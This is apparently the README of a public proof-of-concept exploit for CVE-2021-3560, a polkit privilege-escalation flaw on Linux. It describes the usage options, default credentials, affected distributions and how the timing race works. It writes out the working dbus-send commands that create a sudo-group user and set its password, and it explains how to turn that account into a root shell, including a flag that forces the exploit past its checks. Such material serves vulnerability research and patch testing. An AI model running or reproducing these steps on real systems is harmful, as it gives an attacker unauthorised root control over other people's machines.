 # CVE-2021-3560-Polkit-Privilege-Esclation PoC

## Original research by Kevin Backhouse
This is just a Bash PoC script, that automates the exploitation steps mentioned in Kevin Backhouse's blog.
Read his post on this vulnerability: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/

## Usage
```bash
USAGE:
     ./poc.sh
     -h --help
     -u=Enter custom username to insert (OPTIONAL)
     -p=Enter custom password to insert (OPTIONAL)
     -f=y, To skip vulnerability check and force exploitation. (OPTIONAL)
     -t=Enter custom sleep time, instead of automatic detection (OPTIONAL)
     Format to enter time: '-t=.004' or '-t=0.004' if you want to set sleep time as 0.004ms 
Note:
Equal to symbol (=) after specifying an option is mandatory.
If you donot specify the options, then the script will automatically detect the possible time and
will try to insert a new user using that time.
Default credentials are 'secnigma:secnigmaftw'
If the exploit ran successfully, then you can login using 'su - secnigma'
and you can spawn a bash shell as root using 'sudo bash'
```

## Things to note:
- This exploit works only on distributions that have installed `accountsservice` and `gnome-control-center` and it must have  `polkit` version 0.113 (or later) OR  `0-105-26` (Debian fork of `polkit`).
- This exploit was tested on `Ubuntu` `20.04`, with `polkit` version `0-105-26` (Debian fork of `polkit`) and `Centos 8` with polkit version `0.115`. If you are sure that your target is vulnerable, but the exploit's check function fails, use the `-f=y` flag to bypass all checks and force the exploit.
- Distributions such as RHEL 8, Fedora 21, Debian testing ("bullseye") and Ubuntu 20.04 are found to be vulnerable.
- A list of distribution compatibility can be found from Kevin's [blog](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/#history).
- This script injects a new user in sudo group. If the exploit worked, we can login to the account using `su - <username>` with the password provided to the script, and then enter `sudo bash` to drop into a root shell!
- Since this attack relies on precise timing, **MULTIPLE TRIES ARE USUALLY REQUIRED** for this exploit to work.
- ** WARNING: DO NOT RUN THIS SCRIPT IN GRAPHICAL LOGIN!**
- If this script is run in a graphical login environment, the loop will keep popping the polkit authentication repeatedly. So, run this exploit only inside an SSH/NC shell.
- If that ever happens, press `Esc` key to close the authentication prompt and `Ctrl+C` to terminate the script in a quick manner.

## How the exploit works?
Comprehensive explanation and PoC to exploit this manually is given at the researcher's blog in detail. 

 *TL;DR* of this exploit is given below:

- This attack requires precise timing and we have to login via SSH (or some command line session, where opening graphical applications are not an option).
- An attacker can exploit this vulnerability by triggering `polkit` by sending a `dbus` message,  but closing the request abruptly, while `polkit` is processing the request. Then the attacker can send a second request with the previoud request's unique bus identifier, to execute the request as UID `0` a.k.a `root`.
-  This vulnerability exists in `polkit`, because it treats the UID of a connection with a bus identifier that no longer exists, as a request from UID `0`. Which means that, if we can time the attack correctly and terminate our first request at the right moment, then we can request the second request with the privileges of UID `0` a.k.a `root`.
- The timing to terminate the connection is calculated as the time required to send the dbus-message / 2. Explained in detail [here](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/#exploitation).

## What actually does this script do?
Like I said before, this is just a bash script that automates Kevin Backhouse's PoC. The core commands are the same; I just automated some initial steps (like getting the timing right, scanning for vulnerability, custom credentials insertion, printing pretty colors etc). 

If this script has been run without any parameter, then the default behaviour of this script is as follows:
- Check the distribution type. [Using `/etc/os-release` file.]
- Checks for installation of `accountservice` and `gnome-control-center`. [In `rhel/centos/fedora`, uses `rpm -qa` and in `debian/ubuntu` distributions, it uses `dpkg -l`].
- If the installations are found, then the script checks of polkit version. [ 0.113 (or later) for `rhel.centos,fedora` and  `0-105-26` for `Debian/Ubuntu`]
- If polkit version is found to be vulnerable, the script starts exploitation
- First, the script finds the time required to send the request using debus-send by issuing ```bash time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:`echo $username` string:"`echo $username`" int32:1 2>&1 >/dev/null ```
- Then, the time to terminate the request (`$t`) is calculated by dividing the time required to request by 2. (`$t=time-required-to-request/2`) [Calculated using awk]
- After the time (`$t`) is calculated, the request to insert the `$username` `secnigma` to the target is repeated 20 times. ```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:`echo $username` string:"`echo $username`" int32:1 & sleep `echo $t`s ; kill $! ```
- If the user insertion is succesful, [found using `id secnigma`], then a password hash is generated [using ```bash openssl passwd -5 `echo -n $password` ``` ]. (`$password=secnigmaftw`)
- Then the password hash insertion command is executed for 20 times. ```bash 				dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User`echo $u_id` org.freedesktop.Accounts.User.SetPassword string:`echo -n $hash1` string:GoldenEye & sleep `echo $ti`s ; kill $! ```
